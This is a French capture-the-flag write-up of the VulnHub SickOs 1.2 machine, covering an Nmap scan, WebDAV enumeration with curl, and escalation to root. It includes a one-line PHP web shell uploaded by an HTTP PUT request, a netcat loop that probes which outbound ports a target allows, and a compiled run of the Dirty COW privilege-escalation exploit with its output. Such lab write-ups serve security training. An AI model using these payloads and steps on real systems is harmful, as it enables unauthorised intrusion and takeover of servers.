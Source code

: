 ```yaml
---
title: "Solution du CTF SickOs 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/) est le second et dernier opus de la série. Il s'agit d'un boot2root Linux.

Avce Nmap on voit deux ports ouverts, les autres étant filtrés :

```
Nmap scan report for 192.168.57.4
Host is up (0.00083s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:CE:36:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Une énumération sur le LigHTTPd (avec `gobuster`) ne retourne pas grand chose si ce n'est un dossier `test` vide. Jetons un œil aux méthodes HTTP autorisées :

```http
$ curl -XOPTIONS -I http://192.168.57.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Fri, 10 Feb 2023 16:46:23 GMT
Server: lighttpd/1.4.28
```

## Du côté de chez DAV

On est clairement en présence d'un `WebDAV`. J'ai tenté d'uploader un fichier avec `cadaver` qui est un peu l'équivalent de la commande ftp pour `WebDAV`.

Malheureusement on obtient une erreur peu parlante. J'ai essayé aussi avec `cURL` (option `-T`) et J'ai capturé la requête et la réponse avec Wireshark :

```http
PUT /test/test.txt HTTP/1.1
Host: 192.168.57.4
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 5
Expect: 100-continue

HTTP/1.1 417 Expectation Failed
Content-Type: text/html
Content-Length: 363
Connection: close
Date: Fri, 10 Feb 2023 17:18:32 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

WebDAV peut nécessiter une authentification simple (*Authorization Basic*) mais difficile de dire s'il s'agit de ça ici.

Je me suis basé sur cette article qui indique différentes commandes `cURL` pour dialoguer avec WebDAV : [WebDAV with cURL | Code](https://code.blogs.iiidefix.net/posts/webdav-with-curl/)

J'arrive par exemple à créer un sous-dossier :

```bash
curl -X MKCOL http://192.168.57.4/test/yolo/
```

Etrange. Dans la requête générée plus tôt par `cURL` on peut voir un entête `Expect` et le message d'erreur retourné semble y faire référence.

On va essayer plus basique en forgeant la requête avec `requests` :

```python
>>> import requests
>>> requests.put("http://192.168.57.4/test/shell.php", data='<?php system($_GET["cmd"]); ?>')
<Response [201]>
```

Youpi, ça fonctionne !

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.57.4
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 30

<?php system($_GET["cmd"]); ?>

HTTP/1.1 201 Created
Content-Length: 0
Date: Fri, 10 Feb 2023 17:50:50 GMT
Server: lighttpd/1.4.28
```

## Vache folle

Les ports de la machine sont filtrés et ça semble aussi compliqué d'obtenir un reverse shell.

Netcat est présent sur la machine, on peut faire un scan de notre IP depuis la VM et écouter avec Wireshark ce qui est autorisé.

On peut se baser sur la top liste Nmap des 10 ports les plus communs histoire que ça ne prenne pas des plombes :

```bash
ports=( 21 22 23 25 80 110 139 443 445 3389 ) ; for p in "${ports[@]}" ; do nc -z -w 2 -v 192.168.57.1 $p ; done
```

On observe alors un paquet avec flag SYN sur notre port 443.

Via un reverse-ssh sur ce port on peut uploader et exécuter linpeas qui indique que le système est vulnérable à `Dirty COW` ou à la vulnérabilité `chkrootkit`.

J'ai utilisé le premier exploit. Il est ici instable, après quelques secondes la machine part en kernel panic, il faut prévoir le coup si on souhaite de la persistance.

```bash
www-data@ubuntu:/tmp$ PATH=/usr/lib/gcc/i686-linux-gnu/4.6/:$PATH gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
/usr/include/unistd.h:335:16: note: expected '__off_t' but argument is of type 'void *'
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat]
www-data@ubuntu:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 41284
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

Pour la faille chkrootkit il y a un exemple dans la [Solution du CTF SecTalks: BNE0x02 - Fuku de VulnHub](https://github.com/devl00p/blog/blob/60492c127f22bed556e62c9ab179657af85a6935/ctf_writeups/Solution%20du%20CTF%20SecTalks:%20BNE0x02%20-%20Fuku%20de%20VulnHub.md#fuku)

*Publié le 11 février 2023*
